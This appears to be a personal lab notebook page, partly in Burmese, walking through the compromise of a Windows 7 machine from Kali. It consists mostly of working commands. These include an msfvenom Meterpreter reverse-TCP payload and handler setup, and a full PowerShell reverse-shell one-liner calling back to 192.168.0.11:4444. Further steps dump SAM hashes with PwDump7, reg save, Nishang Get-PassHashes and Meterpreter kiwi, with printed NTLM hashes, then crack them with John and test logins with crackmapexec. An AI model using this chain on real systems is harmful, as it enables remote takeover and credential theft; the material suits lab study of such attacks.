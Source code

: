 ```yaml
---
{"tags":["metasploit","encrypt-decrpyt","walkthrought"],"dg-publish":true,"permalink":"/exploit-from-kali/exploit-win7/","dgPassFrontmatter":true,"noteIcon":""}
---
```



```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.11 LPORT=4444 -f exe > reverse.exe 
```
```
msfconsole
```
```
use exploit/multi/handler
```
```
 set lhost 192.168.0.11
```
```
set payload windows/meterpreter/reverse_tcp
```
```
exploit
```

!!!BOOM!!!

![[Recording 20230919064714.webm]]



```reverse.bat
powershell -w hidden -nop -c $a='192.168.0.11';$b=4444;$c=New-Object system.net.sockets.tcpclient;$nb=New-Object System.Byte[] $c.ReceiveBufferSize;$ob=New-Object System.Byte[] 65536;$eb=New-Object System.Byte[] 65536;$e=new-object System.Text.UTF8Encoding;$p=New-Object System.Diagnostics.Process;$p.StartInfo.FileName='cmd.exe';$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.RedirectStandardError=1;$p.StartInfo.UseShellExecute=0;$q=$p.Start();$is=$p.StandardInput;$os=$p.StandardOutput;$es=$p.StandardError;$osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);$esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);$c.connect($a,$b);$s=$c.GetStream();while ($true) {    start-sleep -m 100;    if ($osread.IsCompleted -and $osread.Result -ne 0) {      $r=$os.BaseStream.EndRead($osread);      $s.Write($ob,0,$r);      $s.Flush();      $osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);    }    if ($esread.IsCompleted -and $esread.Result -ne 0) {      $r=$es.BaseStream.EndRead($esread);      $s.Write($eb,0,$r);      $s.Flush();      $esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);    }    if ($s.DataAvailable) {      $r=$s.Read($nb,0,$nb.Length);      if ($r -lt 1) {          break;      } else {          $str=$e.GetString($nb,0,$r);          $is.write($str);      }    }    if ($c.Connected -ne $true -or ($c.Client.Poll(1,[System.Net.Sockets.SelectMode]::SelectRead) -and $c.Client.Available -eq 0)) {        break;    }    if ($p.ExitCode -ne $null) {        break;    }}
```



https://www.tarasco.org/security/pwdump_7/
cmd ကို R-click >> Run as administrator နဲ့ ဖွင့်@ပီးေတာ့ cd  
command ကို သံုး@ပီး pwdump7 directory ထဲ ကို ဝင်ထားပါတယ်။ @ပီးေတာ့မှ  
PwDump7.exe

```
reg save HKLM\SAM C:\Users\ykh\Desktop\sam
```
```
reg save HKLM\SYSTEM C:\Users\ykh\Desktop\system
```
----
```
load powershell
```
```
locate Invoke-PowerDump.ps1
```
/usr/share/powershell-empire/empire/server/data/module_source/credentials/Invoke-PowerDump.ps1

meterpreter>powershell_import /usr/share/powershell-empire/empire/server/data/module_source/credentials/Invoke-PowerDump.ps1

```maybefial
powershell_execute Invoke-PowerDump
```
try another way
```
locate Get-PassHashe.ps1
```
apt install nishang

```
powershell_import /usr/share/nishang/Gather/Get-PassHashes.ps1
```
```
powershell_execute Get-PassHashes
```
```
meterpreter > powershell_execute Get-PassHashes
[+] Command execution completed:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
ykh:1000:aad3b435b51404eeaad3b435b51404ee:7244793fc0454da4a1ca80fae09118b2:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:94e54c5b9a75664330dde45320e6c5dc:::
```
```
search credential_collector
```
```
use 0
```
```
set SESSION 2
```


```
background
```
```
load kiwi
```
```
lsa_dump_sam
```










Collecting hashes...
Administrator:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
Guest:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
HomeGroupUser$:aad3b435b51404eeaad3b435b51404ee:94e54c5b9a75664330dde45320e6c5dc
ykh:aad3b435b51404eeaad3b435b51404ee:7244793fc0454da4a1ca80fae09118b2

nano winhashes
crack command
```shel
john --format=NT --wordlist=/usr/share/worlists/rockyou.txt winhashes
```


Test try to log in

```
crackmapexec smb 192.168.0.152 -u 'ykh' -p 'password' --sam
```
